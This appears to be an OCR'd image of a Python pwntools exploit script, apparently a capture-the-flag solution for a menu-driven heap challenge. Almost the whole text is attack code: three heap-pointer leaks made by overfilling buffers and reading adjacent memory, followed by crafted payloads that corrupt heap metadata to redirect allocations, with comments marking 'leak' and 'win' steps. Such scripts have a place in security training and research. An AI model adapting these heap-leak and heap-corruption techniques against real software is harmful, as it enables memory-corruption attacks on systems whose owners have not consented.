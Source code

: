 ```python
    r.sendlineafter(": ", "AAAA")

    r.sendlineafter("? ", "3")
    r.sendlineafter("? ", "3")

    # Heap leak 1
    r.sendlineafter("? ", "2")
    r.sendlineafter(": ", "1")
    r.sendlineafter(": ", str(0x80))
    r.sendlineafter(": ", "B"*0x80)

    r.sendlineafter("? ", "4")
    r.sendlineafter(": ", "1")
    r.recvuntil("B"*0x80)
    root = u64(r.recvline().rstrip().ljust(8, '\x00'))
    log.info("root: {:#x}".format(root))

    # Heap leak 2
    r.sendlineafter("? ", "2")
    r.sendlineafter(": ", "1")
    r.sendlineafter(": ", str(0x99))
    r.sendlineafter(": ", "B"*0x99)

    r.sendlineafter("? ", "4")
    r.sendlineafter(": ", "1")
    r.recvuntil("B"*0x98)
    heap_leak = u64(r.recvline().rstrip().ljust(8, '\x00'))-ord('B')
    log.info("heap_leak: {:#x}".format(heap_leak))

    # Heap leak 3
    r.sendlineafter("? ", "2")
    r.sendlineafter(": ", "1")
    r.sendlineafter(": ", str(0xc0))
    r.sendlineafter(": ", "B"*0xc0)

    r.sendlineafter("? ", "4")
    r.sendlineafter(": ", "1")
    r.recvuntil("B"*0xc0)
    impt = u64(r.recvline().rstrip().ljust(8, '\x00'))
    log.info("impt: {:#x}".format(impt))

    # Heap attack (0x0001000000010002)
    payload = p64(0x0000000000000000)
    payload+= p64(0x0000000000000000)
    payload+= p64(0x0000000000000000)
    payload+= p64(0x0000000100000000)
    payload+= payload.ljust(0xd0, '\x00')
    payload+= p64(root-0x40)
    r.sendlineafter("? ", "2")
    r.sendlineafter(": ", "1")
    r.sendlineafter(": ", str(len(payload)))
    r.sendlineafter(": ", payload)

    # Heap attack allocation
    payload = p64(0x100)*3
    payload+= p64(0x100)+p64(impt+0x40)+p64(root-0x10) # leak
    payload+= p64(0x100)+p64(root-0x40) # win
    payload+= p64(0x100)+p64(impt+0x40)+p64(root-0x28) # root goes to leak
    payload = payload.ljust(0x90)
    r.sendlineafter("? ", payload)

    # Leak!
    r.sendlineafter(": ", "4")
```